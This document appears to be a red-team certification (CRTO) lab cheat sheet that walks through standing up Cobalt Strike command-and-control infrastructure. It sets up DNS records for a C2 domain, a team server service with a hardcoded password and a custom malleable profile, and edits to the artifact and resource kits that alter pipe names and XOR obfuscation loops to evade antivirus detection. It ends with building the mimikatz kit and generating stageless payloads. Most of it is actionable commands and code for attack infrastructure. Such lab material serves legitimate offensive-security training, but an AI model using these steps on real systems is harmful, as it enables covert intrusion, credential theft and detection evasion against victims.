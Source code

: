 # CRTO Infrastructure Cheat Sheet

1. Setup DNS records
2. Load Malleable C2 profile and change out https-certificate block (use nopsled.profile which is custom webbug.profile)
3. Setup teamserver.service enabled on boot
4. Create http, smb, dns, tcp, tcp-local listeners
5. Modify the script_template.cna (changes rundll32.exe references to dllhost.exe)
6. Modify bypass-pipe.c and patch.c, and build the artifact kit
7. Modify the template.x64.ps1 file and build the resource kit
8. Build the mimikatz kit
9. Load all the cna files (e.g., artifact.cna, resource.cna, mimikatz.cna)
10. Generate all Windows stageless CS payloads


## 1. Set DNS records

@ A 3600 10.10.5.50\
ns1 A 3600 10.10.5.50\
pics A 3600 ns1.getwrecked.com

## 2. Load Malleable C2 profile

- Use nopsled.profile (custom webbug.profile)
- Change out the CN to match DNS in https-certificate

## 3. Setup Team Server as a Service

`sudo vim /etc/systemd/system/teamserver.service`

*include in teamserver.service:*
```[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=/home/attacker/cobaltstrike
ExecStart=/home/attacker/cobaltstrike/teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/nopsled.profile

[Install]
WantedBy=multi-user.target
```

Setup the service to enable on boot after creating teamserver.service
`sudo systemctl daemon-reload`
`sudo systemctl status teamserver.service`
`sudo systemctl start teamserver.service`
`sudo systemctl enable teamserver.service`

## 4. Create http, smb, dns, tcp, tcp-local listeners

## 5. Modify the script_template.cna (changes rundll32.exe references to dllhost.exe)
`$template_path="C:\Tools\cobaltstrike\arsenal-kit\kits\artifact\script_template.cna"; (Get-Content -Path $template_path) -replace 'rundll32.exe', 'dllhost.exe' | Set-Content -Path $template_path`

## 6. Modify bypass-pipe.c and patch.c, and build the artifact kit

### bypass-pipe.c: Change the sprintf call on line 130 and remove the comments above
`sprintf(pipename, "%c%c%c%c%c%c%c%c%cnop\\sled", 92, 92, 46, 92, 112, 105, 112, 101, 92);`

### patch.c: Change for loops on lines 45 and around 115/120
```
for (x = 0; x < length; x++) {
    char* ptr = (char *)buffer + x;

    /* do something random */
    GetTickCount();

    *ptr = *ptr ^ key[x % 8];
}
```

### Build artifact kit
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact && ./build.sh pipe VirtualAlloc 310272 5 false false none /mnt/c/Tools/cobaltstrike/artifacts`

## 7. Modify the template.x64.ps1 file and build the resource kit

### Edit template.x64.ps1
```
for ($nops = 0; $nops -lt $v_code.Count; $nops++) {
	$v_code[$nops] = $v_code[$nops] -bxor 35
}
```

### Build resource kit
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource && ./build.sh /mnt/c/Tools/cobaltstrike/resource`

## 8. Build the mimikatz kit

### Setup mimikatz for CS
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/mimikatz/ && ./build.sh /mnt/c/Tools/cobaltstrike/mimikatz`

## 9. Load all the cna files (e.g., artifact.cna, resource.cna, mimikatz.cna)

## 10. Generate all Windows stageless CS payloads
